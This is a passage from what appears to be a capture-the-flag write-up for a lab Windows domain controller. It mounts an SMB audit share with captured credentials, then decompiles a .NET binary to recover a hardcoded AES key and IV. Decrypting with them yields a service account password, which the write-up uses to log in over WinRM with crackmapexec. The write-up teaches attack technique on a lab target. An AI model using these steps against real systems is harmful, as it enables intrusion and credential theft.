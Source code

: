 Mounting the _Audit share_ to our local client:
```
mkdir /mnt/cascade_audit

mount -t cifs -o 'user=s.smith,password=sT333ve2' //10.10.10.182/Audit$ /mnt/cascade_audit/
```

In there are _.exe_ and _.dll_ files and to analyze these, it is recommended to download the files to our local box.

### Reverse Engineering Windows Binary

The following files are in the share:
- CascAudit.exe
- CascCrypto.dll
- DB/Audit.db
- RunAudit.bat
- System.Data.SQLite.dll
- System.Data.SQLite.EF6.dll
- x64/SQLite.Interop.dll
- x86/SQLite.Interop.dll

The executable file _CascAudit.exe_ is a **.NET Binary**:
```
file CascAudit.exe

PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```
Such files can be analyzed and debugged with [dnSpy](https://github.com/dnSpy/dnSpy) on Windows.
The _CascCrypto.dll_ has probably the security functions for this binary.

The function _Crypto_ uses **AES encryption** in **CBC mode** with an initialization vector:
```
(...)
aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
aes.Mode = CipherMode.CBC;
(...)
```

This function is used in _CascAudit.exe_ and in the _MainModule_ is a key in line 44:
```
(...)
password = Crypto.DecryptString(encryptedString, "c4scadek3y654321");
(...)
```

After setting a breakpoint on line 44 and running the program with the _Audit.db_ as an argument, it needs one _Step over_ to decrypt the key and display the password in the locals:
```
Name                                            Value
CaseCrypto.Crypto.DecryptString returned        "w3lc0meFr31nd"
```

The password works for the user _ArkSvc_ and it is possible to connect to **WinRM**:
```
crackmapexec winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd

WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```
